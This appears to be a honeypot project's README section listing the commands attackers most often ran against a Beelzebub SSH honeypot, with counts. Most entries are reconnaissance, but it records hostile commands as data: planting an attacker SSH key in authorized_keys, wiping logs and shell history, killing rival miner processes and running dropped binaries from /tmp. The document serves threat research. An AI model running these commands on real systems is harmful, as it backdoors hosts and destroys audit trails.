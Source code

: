 **Most executed commands**

```sh
webserver1@webserver1:~/beelzebub/logs$ jq -r '.event.Command | select(. != null and . != "")' beelzebub.log | sort | uniq -c | sort -rn | head -50
41 ls
11 uname -a
10 whoami
9 pwd
8 w
8 uname -m
6 cd ~; chattr -ia .ssh; lockr -ia .ssh
5 uname
5 top
5 ls -lh $(which ls)
5 lscpu | grep Model
5 free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'
5 df -h | head -n 2 | awk 'FNR == 2 {print $2;}'
5 crontab -l
5 cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
5 cat /proc/cpuinfo | grep processor | wc -l
5 cat /proc/cpuinfo | grep name | wc -l
5 cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}'
5 cat /proc/cpuinfo | grep model | grep name | wc -l
4 rm -rf .bash_history;rm -rf /var/run/utmp;rm -rf /var/run/wtmp -;rm -rf /var/log/lastlog;rm -rf /usr/adm/lastlog;rm -rf .bash_history;cd /home;rm -rf yum.log;cd /var/log/;rm -rf wtmp;rm -rf secure;rm -rf lastlog;rm -rf messages;touch messagess;touch wtmp;touch secure;touch lastlog;cd /root;rm -rf .bash_history;touch .bash_history;unset HISTFILE;unset HISTSAVE;history -n;unset WATCH;cd;HISTFILE=/dev/null;history -c && rm -f ~/.bash_history;cd ..
4 ping 8.8.8.8
4 passwd
4 cat /etc/passwd
3 ll
3 cd /dev/shm || cd /tmp || cd /var/run || cd /mnt || cd /root || cd / && cat > netai
2 uname -s -v -n -r -m
2 uname -r | awk '{printf $1}'
2 uname -n | awk '{printf $1}'
2 uname -m | awk '{printf $1}'
2 nvidia-smi -q | grep "Product Name" | awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' | wc -l | head -c 1
2 nvidia-smi -q | grep "Product Name"
2 nproc
2 lspci | egrep VGA && lspci | grep 3D
2 kill -9 $(ps aux | grep xrx |grep -v grep | awk '{print $2}');kill -9 $(ps aux | grep biden1 |grep -v grep | awk '{print $2}');kill -9 $(ps aux | grep zzh |grep -v grep | awk '{print $2}');kill -9 $(ps aux | grep arx645 |grep -v grep | awk '{print $2}');kill -9 $(ps aux | grep kthreaddk |grep -v grep | awk '{print $2}');kill -9 $(ps aux | grep ab |grep -v grep | awk '{print $2}');kill -9 $(ps aux | grep kdevtmpfsi |grep -v grep | awk '{print $2}')
2 cd
1 uname -s -m
1 uname -s
1 /tmp/kal64
1 /tmp/amd64
1 sudo su
1 sudo -l
1 sh -c 'for d in /dev/shm /tmp /var/run /mnt /root /; do cd "$d" 2>/dev/null && pwd && break; done'
1 sdv
1 scp -t /var/tmp/8ixni5b4yfecmq07ecilanp4ug
1 scp -t /usr/local/bin/8ixni5b4yfecmq07ecilanp4ug
```